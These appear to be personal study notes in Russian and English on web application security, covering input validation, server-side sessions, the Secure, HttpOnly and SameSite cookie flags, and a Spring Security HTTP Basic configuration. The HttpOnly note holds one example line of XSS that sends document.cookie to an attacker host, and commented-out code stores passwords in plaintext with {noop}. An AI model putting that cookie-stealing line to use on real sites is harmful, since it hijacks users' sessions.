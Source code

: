 ```
check any user input
don't believe to any Framework
не будь слишком самоуверенным
```
- Мораль. Сессию надо обязательно хранить на сервере. Либо всю, либо признак жива-мертва
- set cookie `Secure` (protects from man in the middle)
- `HttpOnly` недостуна из JavaScript. Защищает от атак `(new Image()).src = "http://evil.com/steal-cookie.php?cookie=" + document.cookie;`
- `SameSite=Strict`, нельзя посылать между разными доменами


```Java
    @Value("${spring.security.user.name}")
    private String username;

    @Value("${spring.security.user.password}")
    private String password;

    @Override
    public void configure(HttpSecurity http) throws Exception {
        http.authorizeRequests()
            .antMatchers("/**")
            .authenticated()
            .and().httpBasic(httpSecurityHttpBasicConfigurer -> {
                httpSecurityHttpBasicConfigurer.authenticationEntryPoint(new AuthExceptionEntryPoint());
            });
    }
// можно самим задать inMemoryAuth,
// можно проперти spring.security.user.name, spring.security.user.password прописать без этого закомментированного кода
//    @Autowired
//    public void configureGlobal(AuthenticationManagerBuilder auth) throws Exception {
//        auth.inMemoryAuthentication()
//            .withUser(username)
//            .password("{noop}" + password)
//            .authorities("ROLE_USER");
//    }
```
